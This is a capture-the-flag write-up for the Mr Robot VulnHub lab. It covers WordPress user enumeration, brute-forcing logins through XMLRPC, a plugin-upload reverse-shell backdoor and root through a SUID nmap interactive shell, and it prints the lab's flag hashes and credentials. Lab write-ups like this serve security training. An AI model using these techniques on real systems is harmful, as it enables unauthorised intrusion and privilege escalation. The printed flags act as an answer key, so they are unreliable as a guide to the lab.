 # MR Robot writeup 

## Recon

IP found using netdiscover 

Wordpress installation found using dirb (http://<IP>/0)
has XMLRPC enabled. this allows us to send batch password requests.
dirb also found robots.txt with contains

```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

seems like http://<IP>/key-1-of-3.txt gives the first key

```bash
073403c8a58a1f80d943455fb30724b9
```

it also shows a file that contains a bunch of words (a wordlist).
 
## Wordpress login

wpscan can give us some more information about the website
by running `wpscan --url http://<ip>/0 --wp-content-dir /wp-content --enumerate u` we can show what users exist.

```bash
[i] User(s) Identified:

[+] mich05654
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)


[+] elliot
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

```

this allows us to create a userlist to login with.
by using the XMLRPC.php exploit we can easilly try the large fsocity.dic wordlist to login

login credentials:

```bash
[SUCCESS] - mich05654 / Dylan_2791  
[SUCCESS] - elliot  / ER28-0652   
```

mich is just a user but elliot is an administrator.


## Wordpress reverse php shell

By checking plugins we can see an import and export plugin.
this might give us an easy way of uploading some php files.
by adding our backdoor to the exported zip we can get a reverse shell.

## Privilege escalation

Now that we can run commands we can see what's on the system.
we can see that there is a /home/robot directory containing

```bash
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

this is where the second key can be found.
This is where i might deviate from other writeups.
I did not yet know a way of spawning a tty (using python for example)

## Getting root

By checking for files which have their suid bit set we can find nmap.
nmap contains an interactive mode that can spawn a shell

```bash
/usr/local/bin/nmap --interactive
nmap> !sh
whoami
root
```

## Succes!

This allows us to both read key 2 and key 3 (which can be found in /root)

```bash
key2: 822c73956184f694993bede3eb39f959
key3: 04787ddef27c3dee1ee161b21670b4e4
```

with this i've finished the MrRobot vulnhub machine